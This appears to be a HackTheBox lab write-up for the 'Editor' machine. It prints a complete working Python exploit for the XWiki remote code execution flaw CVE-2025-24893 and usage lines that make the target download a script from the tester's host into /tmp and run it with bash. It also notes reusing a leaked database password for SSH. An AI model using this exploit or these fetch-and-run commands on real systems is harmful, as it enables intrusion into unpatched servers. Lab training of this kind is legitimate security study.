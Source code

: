 ```yaml
---
layout: post
title: "Editor HTB Writeup"
date: 2025-08-11 09:01:00 +0300
categories: [HackTheBox, Machines]
tags: [cybersecurity, wikicms, hackthebox, machines,hacking]
---
```



# 🎰 Editor HTB Writeup

Today i'll talk about Editor HTB machine. This machine is about WikiCMS and RCE (CVE-2025-24893)
> `CVE-2025-24893` is a RCE vulnerability in WikiCMS.
{: .prompt-warning }
---

## NMAP & Enumeration
After a quick scan in nmap and ffuf, I saw this output in nmap.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:55 +03
Nmap scan report for editor.htb (10.10.11.80)
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 80 is about a download page for editor application.
Port 8080 is WikiCMS and after a quick search in exploit-db, I realized WikiCMS has RCE vulnerability.

### (PoC)[https://github.com/Artemir7/CVE-2025-24893-EXP]
```python
import argparse
import requests
import re
from urllib.parse import urljoin, quote
import html

BANNER = """
===========================================================
                   CVE-2025-24893
            XWiki Remote Code Execution Exploit
                      Author: Artemir
===========================================================
"""

def extract_output(xml_text):
    decoded = html.unescape(xml_text)
    match = re.search(r"\[}}}(.*?)\]", decoded)
    if match:
        return match.group(1).strip()
    else:
        return None

def exploit(url, cmd):
    headers = {
        "User-Agent": "Mozilla/5.0",
    }

    payload = (
        "}}}{{async async=false}}{{groovy}}"
        f"println('{cmd}'.execute().text)"
        "{{/groovy}}{{/async}}"
    )

    encoded_payload = quote(payload)
    exploit_path = f"/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}"
    full_url = urljoin(url, exploit_path)

    try:
        response = requests.get(full_url, headers=headers, timeout=10)
        if response.status_code == 200:
            output = extract_output(response.text)
            if output:
                print("[+] Command Output:")
                print(output)
            else:
                print("[!] Exploit sent, but output could not be extracted.")
                print("[*] Raw response (truncated):")
                print(response.text[:500])
        else:
            print(f"[-] Failed with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-24893 - XWiki RCE PoC")
    parser.add_argument("-u", "--url", required=True, help="Target base URL (e.g. http://example.com)")
    parser.add_argument("-c", "--cmd", required=True, help="Command to execute")

    args = parser.parse_args()
    exploit(args.url, args.cmd)
```
## Usage of The Exploit 
```
python sa.py -u http://editor.htb:8080 -c "curl http://10.10.14.35:8080/ -O /tmp/exp.sh"
python sa.py -u http://editor.htb:8080 -c "bash /tmp/exp.sh"
```
### Getting Database Password
I see the password of database in `hibernate.cfg.xml`. The password is same with SSH.

# End
This machine is a great example of the importance of the updating.
Happy Hacking <3
